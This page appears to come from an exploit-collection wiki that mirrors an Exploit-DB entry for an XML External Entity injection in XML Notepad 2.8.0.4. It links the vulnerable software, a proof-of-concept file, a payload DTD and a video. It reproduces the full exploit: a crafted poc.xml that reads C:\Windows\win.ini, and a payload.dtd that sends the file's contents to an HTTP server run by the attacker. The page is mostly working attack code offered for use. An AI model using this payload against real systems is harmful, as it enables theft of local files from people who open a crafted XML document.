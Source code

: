 ```yaml
---
description: >-
  https://awesome.hackpuntes.com/exploit-db/xml-notepad-2.8.0.4-xml-external-entity-injection
---
```


# XML Notepad 2.8.0.4 - XML External Entity Injection

{% embed url="https://www.exploit-db.com/exploits/47606" %}

### FILES

{% file src="../.gitbook/assets/xml-notepad-v2.8.0.4.zip" caption="Vulnerable software" %}

{% file src="../.gitbook/assets/poc.xml" caption="Exploit" %}

{% file src="../.gitbook/assets/payload.dtd" caption="Payload" %}

### POC

{% embed url="https://www.youtube.com/watch?v=o6ltE-Bv8ww" %}

### ORIGINAL

```text
# Exploit Title: XML Notepad 2.8.0.4 - XML External Entity Injection
# Date: 2019-11-11
# Exploit Author: 8-Team / daejinoh
# Vendor Homepage:  https://www.microsoft.com/  
# Software Link:  https://github.com/microsoft/XmlNotepad  
# Version: XML Notepad 2.8.0.4
# Tested on: Windows 10 Pro
# CVE : N/A

# Step
1) File -> Open -> *.xml

# Exploit Code

1) Server(python 3.7) : python -m http.server
2) Poc.xml : 
<?xml version="1.0"?>
<!DOCTYPE test [
<!ENTITY % file SYSTEM "C:\Windows\win.ini">
<!ENTITY % dtd SYSTEM "http://127.0.0.1:8000/payload.dtd">
%dtd;]>
<pwn>&send;</pwn>

3) payload.dtd
<?xml version="1.0" encoding="UTF-8"?>
<!ENTITY % all "<!ENTITY send SYSTEM 'http://127.0.0.1:8000?%file;'>">
%all;

  -------------------------------------------------------------------------------- 
```

